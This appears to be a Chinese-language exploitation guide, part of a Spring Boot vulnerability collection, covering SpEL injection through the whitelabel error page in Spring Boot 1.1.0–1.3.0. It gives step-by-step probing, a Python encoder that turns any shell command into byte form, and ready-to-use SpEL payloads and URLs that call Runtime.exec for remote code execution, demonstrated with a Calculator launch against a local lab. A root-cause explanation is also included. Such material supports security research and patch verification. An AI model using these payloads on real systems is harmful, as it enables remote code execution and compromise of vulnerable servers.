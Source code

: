 #### 利用条件

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名

#### 利用方法

##### 步骤一：找到一个正常传参处

比如发现访问  `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

#### 漏洞原理

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中  `${}`  包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

#### 漏洞分析

​ [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

#### 漏洞环境

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```url
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```url
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
